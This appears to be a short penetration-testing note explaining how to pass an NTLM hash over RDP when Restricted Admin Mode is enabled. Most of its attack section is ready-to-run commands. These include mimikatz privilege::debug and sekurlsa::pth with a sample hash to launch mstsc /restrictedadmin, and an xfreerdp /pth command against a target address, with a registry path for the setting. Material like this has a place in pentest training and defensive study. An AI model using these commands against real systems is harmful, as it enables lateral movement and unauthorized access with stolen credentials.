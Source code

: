 # Mimikatz - Pass the hashes and Restricted Admin Mode

Restricted admin mode is disabled by default but the setting can be controlled through the DisableRestrictedAdmin registry entry at the following path :

```REG
HKLM:\System\CurrentControlSet\Control\LSA
```

While restricted admin mode protects against credential theft on the target, it is now possible to pass the hash when doing lateral movement with mstsc.

We will assume that we already in possession of the admin user NTLM hash and are logged in to the Windows 10 client as the v0lk3n user. 

We can then run mimikatz from an administrative console and use the pth command to launch a mstsc.exe process in the context of the admin user :

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:dev1 /ntlm:4236C25DEC35C2B26E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

xfreerdp RDP client, which is installed on a Kali system by default, supports restricted remote admin connections as well.

```bash
kali@kali:~$ xfreerdp /u:admin /pth:4236C25DEC35C2B26E2EB3B9F05C425E /v:192.168.x.x /cert-ignore
```
